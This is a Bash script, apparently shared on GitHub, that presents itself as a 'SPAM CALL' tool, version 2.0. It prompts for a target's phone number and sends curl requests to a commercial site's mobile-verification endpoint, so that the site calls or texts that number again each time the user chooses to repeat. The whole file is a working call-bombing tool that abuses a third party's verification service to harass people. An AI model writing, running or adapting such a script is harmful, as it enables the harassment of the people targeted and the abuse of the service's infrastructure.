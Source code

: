 # call
#!/bin/bash
r="\033[31;1m"
y="\033[33;1m"
yl="\033[1;33m"
g="\033[0;32m"
gl="\033[32;1m"
b="\033[0;36m"
bl="\033[36;1m"
c="\033[36;1m"
p="\033[0;35m"
o="\033[0m"

cek(){
command -v curl > /dev/null 2>&1 || { echo >&2 "curl belum terinstall ketik >> pkg install curl -y"; exit 1; }
command -v cowsay > /dev/null 2>&1 || { echo >&2 "cowsay belum terinstall ketik >> pkg install cowsay -y"; exit 1; }
command -v ruby > /dev/null 2>&1 || { echo >&2 "ruby belum terinstall ketik >> pkg install ruby -y dan >> gem install lolcat"; exit 1; }
}
mulai(){
echo ""
sleep 0.1
echo -e "             \033[90m~  ~  ~  \033[1;32m ┌∩┐(\033[1;31m◣_◢\033[1;32m)┌∩┐\033[90m   ~  ~  ~"
echo -e "\033[1;37m                  SPAM CALL VERSI(\033[1;32m2.0\033[1;37m)"
echo -e "\033[1;34m╔═══════════════════════════════════════════════════════╗"
echo -e "\033[1;34m║  \033[90m{\033[1;31m•\033[90m}  \033[1;37mAuthor    :   \033[1;36mFahmi Apz    \033[1;34m                     ║"
echo -e "\033[1;34m║\033[90m  {\033[1;31m•\033[90m} \033[1;37m Youtube   : \033[1;36m  Apmz Channel \033[1;34m                     ║"
echo -e "\033[1;34m║\033[90m  {\033[1;31m•\033[90m} \033[1;37m Github    :\033[1;32m   https://github.com/BangDanz  \033[1;34m     ║"
echo -e "\033[1;34m╚═══════════════════════════════════════════════════════╝"
echo -e "\033[1;37mMasukan Nomor Tanpa (0/62)"
sleep 0.1
echo -e "\033[1;37mMASUKAN NO TARGET \033[1;32m " ;read -p "=> " nomor
link="https://id.jagreward.com/member/verify-mobile/$nomor"
gas="curl -s $link"
sleep 0.1
echo -e "\e[1;37mMESSAGE\033[1;32m"
sleep 0.1
$gas
echo -e "${o}"
sleep 0.2
}
ulang(){
echo ""
echo -e "${o}Coba Lagi ?"
echo -e "${o}y${o}/${o}n${g}"
read -p "=> " ula
if [[ $ula == "y" ]]; then
u
elif [[ $ula == "n" ]]; then
exit
else
echo -e "${r}Pilih y/n  "
ulang
fi
}
u(){
mulai
ulang
}
i(){
cek
mulai
}
mulai
ulang
